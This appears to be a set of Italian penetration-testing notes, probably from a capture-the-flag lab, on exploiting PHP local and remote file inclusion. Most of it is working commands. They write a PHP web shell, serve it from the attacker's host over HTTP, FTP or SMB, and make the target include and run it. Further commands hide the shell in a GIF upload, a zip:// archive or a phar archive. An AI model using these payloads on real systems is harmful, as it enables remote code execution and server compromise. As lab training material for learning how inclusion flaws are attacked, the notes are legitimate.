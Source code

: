 ```shell
$ curl http://10.129.29.114/index.php?language=http://127.0.0.1:80/index.php
```

## Exploit

creiamo la nostra piccola shell e serviamola con python
```shell
$  echo '<?php system($_GET["cmd"]); ?>' > shell.php
$  sudo python3 -m http.server 1337
```
poi proviamo a visitare l'url

```shell
$ curl http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
altri esempi 
```shell
# FTP
$ sudo python -m pyftpdlib -p 21
$ curl http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id

# SMB
$ impacket-smbserver -smb2support share $(pwd)
$ curl http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

# upload img

se possiamo caricare file, proviamo a generare il nostro paylod malevolo e carichiamolo

```shell
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

ispezionando l'html o cmq il frontend o altre infor che abbiamo a disposizione cerchiamo di capire la cartella in cui risiede l'img e visitiamo l'url

```shell
$ curl http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

# upload zip


```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
$ http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

# phar wrapper

file `shell.php`
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
compilazione e rinominare
```shell
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
